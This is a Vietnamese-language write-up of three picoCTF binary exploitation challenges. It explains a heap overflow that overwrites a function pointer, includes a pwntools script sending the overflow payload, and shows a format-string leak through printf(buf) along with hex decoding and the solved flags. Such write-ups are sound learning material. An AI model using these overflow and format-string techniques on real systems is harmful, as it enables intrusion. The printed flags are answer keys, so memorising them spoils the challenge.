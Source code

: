 # heap 1
## Challenge
[link challenge](https://play.picoctf.org/practice/challenge/439?category=6&difficulty=2&page=1)
## Solution
- Bài này giống bài [heap 0](https://github.com/nhh9905/CTF/blob/main/picoCTF/Binary%20Exploitation/easy/writeup.md), tuy nhiên có sự khác biệt ở chỗ biến `safe_var` phải là chuỗi `pico` thì ta mới thu được flag
- Thực hiện `nc tethys.picoctf.net 55200`
![alt text](https://github.com/nhh9905/CTF/blob/main/picoCTF/Binary%20Exploitation/medium/image-1.png)
## Flag
```picoCTF{starting_to_get_the_hang_9e9243f9}```
# heap 2
## Challenge
[link challenge](https://play.picoctf.org/practice/challenge/435?category=6&difficulty=2&page=1)
## Solution
- Đọc hàm `main` của file `chall.c`, ta vẫn thấy motip giống nhau đều là nhập `buffer` để làm tràn số, tuy nhiên bài này khó ở chỗ là chúng ta phải hiểu hàm `check_win`
```C
void check_win() { ((void (*)())*(int*)x)(); }
```
- Search chatgpt, tôi biết được rằng hàm này cho phép thực thi hàm `win` thông qua địa chỉ được lưu trong `x` hay nói cách khác `x` chính là địa chỉ của hàm `win`
-> Chúng ta phải đi tìm địa chỉ hàm `win`
- Sử dụng câu lệnh `objdump -D chall | grep win` ta thu được địa chỉ hàm win là `00000000004011a0`
![alt text](https://github.com/nhh9905/CTF/blob/main/picoCTF/Binary%20Exploitation/medium/image-2.png)
- Chúng ta phải chuyển địa chỉ hàm `win` sang `little-endian` để tiến hành viết payload. Lý do phải chuyển sang `little-endian` là vì:
![alt text](https://github.com/nhh9905/CTF/blob/main/picoCTF/Binary%20Exploitation/medium/image-3.png)
![alt text](https://github.com/nhh9905/CTF/blob/main/picoCTF/Binary%20Exploitation/medium/image-4.png)
- Viết payload để lấy flag:
```Python
from pwn import *

p = remote("mimas.picoctf.net", 51605)

payload = b'2'
p.sendlineafter(b"Enter your choice: ", payload)
payload = b'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\xa0\x11\x40\x00\x00\x00\x00\x00'
p.sendlineafter(b"Data for buffer: ", payload)
payload = b'4'
p.sendlineafter(b"Enter your choice: ", payload)

p.interactive()
```
![alt text](https://github.com/nhh9905/CTF/blob/main/picoCTF/Binary%20Exploitation/medium/image-5.png)
## Flag
```picoCTF{and_down_the_road_we_go_91218226}```
# format string 1
## Challenge
[link challenge](https://play.picoctf.org/practice/challenge/434?category=6&difficulty=2&page=1)
## Solution
- Đọc qua file code `chall.c`, ta thấy bug ở dòng 36
```C
printf(buf);
```
- Đây là lỗ hổng `format string` khi in `buf` không đúng định dạng, dẫn tới việc có thể khai thác lỗ hổng thông qua dòng code đó
- Tiến hành `netcat` tới server, ta thu được chuỗi `hex`
![alt text](https://github.com/nhh9905/CTF/blob/main/picoCTF/Binary%20Exploitation/medium/image-6.png)
- Lấy đoạn `hex` sau `(nil)`, tiến hành loại bỏ những đoạn `hex` không có ý nghĩa và viết code thu được flag
```Python
hex = ["7b4654436f636970",
       "355f31346d316e34",
       "3478345f33317937",
       "35365f673431665f",
       "7d313464303935",]
print((bytes.fromhex(hex[0])[::-1] +
       bytes.fromhex(hex[1])[::-1] +
       bytes.fromhex(hex[2])[::-1] +
       bytes.fromhex(hex[3])[::-1] +
       bytes.fromhex(hex[4])[::-1]).decode())
```
## Flag
```picoCTF{4n1m41_57y13_4x4_f14g_65590d41}```